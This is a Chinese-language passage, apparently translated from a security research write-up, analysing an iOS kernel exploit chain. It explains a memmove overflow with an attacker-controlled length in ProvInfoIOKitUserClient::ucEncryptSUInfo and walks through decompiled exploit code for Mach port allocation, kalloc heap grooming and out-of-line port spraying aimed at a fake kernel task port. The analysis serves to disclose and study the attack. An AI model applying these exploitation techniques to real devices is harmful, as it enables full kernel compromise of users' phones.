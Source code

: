 外部方法5是ucEncryptSUInfo，它接受0x7d8字节结构输入，并返回0x7d8字节结构输出。这些大小由基础IOUserClient类的IOUserClient :: externalMethod进行验证。如果尝试传递其他大小的输入或输出，结果将会失败。

这是ProvInfoIOKitUserClient :: ucEncryptSUInfo中的第一个语句，我没有在这个函数的开头删改任何内容。struct_in指向0x7d8攻击者控制字节的缓冲区。如上面的介绍中所示：

```
IOReturn
ProvInfoIOKitUserClient::ucEncryptSUInfo(char* struct_in,
                                         char* struct_out)`{`
  memmove(&amp;struct_out[4],
          &amp;struct_in[4],
          *(uint32_t*)&amp;struct_in[0x7d4]);
...
```

IOKit外部方法类似于系统调用。这个参数在这个边界是不可信的。该外部方法中的第一个语句是一个memmove操作，具有一个简单的、由用户控制的长度参数。



## 内核漏洞利用

内核漏洞利用的开始通常都是相同的：获取设备正确的内核偏移量，并创建一个IOSurfaceRootUserClient以附加任意OSObject。攻击者分配了0x800管道（首先增加打开文件限制）和1024个早期端口。

然后，分配了768个端口，分成四组，如下所示：

```
for ( i = 0; i &lt; 192; ++i ) `{`
  mach_port_allocate(mach_task_self(), MACH_PORT_RIGHT_RECEIVE, &amp;ports_a[i]);
  mach_port_allocate(mach_task_self(), MACH_PORT_RIGHT_RECEIVE, &amp;ports_b[i]);
  mach_port_allocate(mach_task_self(), MACH_PORT_RIGHT_RECEIVE, &amp;ports_c[i]);
  mach_port_allocate(mach_task_self(), MACH_PORT_RIGHT_RECEIVE, &amp;ports_d[i]);
`}`
```

然后是另外五个独立的端口：

```
mach_port_allocate((unsigned int)mach_task_self_, 1LL,
                   &amp;port_for_more_complex_kallocer);
mach_port_allocate((unsigned int)mach_task_self_, 1LL, &amp;single_port_b);
mach_port_allocate((unsigned int)mach_task_self_, 1LL, &amp;single_port_c);
mach_port_allocate((unsigned int)mach_task_self_, 1LL, &amp;single_port_d);
mach_port_allocate((unsigned int)mach_task_self_, 1LL,
                   &amp;first_kalloc_groomer_port);
```

这里使用kalloc_groomer消息进行25600 kalloc.4096分配，然后使用与iOS漏洞利用链#3相同的技术强制GC。

在这里，分配了10240个before_ports、target_port和5120个after_ports。这也是我们在之前的链中看到的副本。初看上去，似乎正在设置一个指向target_port的悬空指针，将区域转移到kalloc.4096并构建一个虚假的内核任务端口。

随后，他们发送了一个更加复杂的kalloc_groomer，它将进行1024次kalloc.4096分配，然后进行1024次kalloc.6144分配。这填补了这两个区域的空白。

他们96次交替地将带有0x200条目的外部端口描述符发送到ports_a[]的端口，然后将kalloc.4096 groomer发送到ports_c[]的端口。

```
for ( j = 0; j &lt; 96; ++j ) `{` // use the first half of these arrays of ports
  send_ool_ports_msg(some_of_ports_a[j],
                     some_ports_to_send_ool,
                     0x200u,
                     const_15_or_8,
                     0x14u);// 15 or 8 kalloc.4096 of ool_ports
  send_kalloc_groomer_msg(some_of_ports_c[j],
                          4096,
                          stack_buf_for_kalloc_groomer,
                          1);// kalloc.4096 of ool_desc
`}`
```
